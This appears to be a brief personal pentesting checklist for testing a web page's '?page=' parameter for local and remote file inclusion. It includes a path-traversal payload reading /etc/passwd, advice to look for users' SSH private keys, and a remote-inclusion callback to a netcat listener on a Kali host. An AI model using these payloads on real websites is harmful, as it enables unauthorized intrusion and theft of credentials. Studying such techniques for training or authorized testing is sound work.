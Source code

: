 # Initial inspection

1. Does the URL have a `?page=<whatever>` at the end?
   
   a. Yes then continue

   b. No then stop

# Attempt LFI 
 
1. cat a file every user should have access to?
   
   a. Something like this `<url>/?page=../../../../../../../../../../../etc/passwd`

   b. If this worked then LFI is good

   c. If this didnt work, attempt url encoding it

   d. If this didnt work, move on to RFI

3. Get users that have home directories

   a. Good starting point is look for `.ssh/id.rsa` file in attempt to get ssh access

# Attempt RFI 

1. set up enviroment

   a. Create nc listener on kali

   b. use website to call back to nc listener `<url>/?page=http://<kali ip>:<port>/`

   c. examine nc output
   

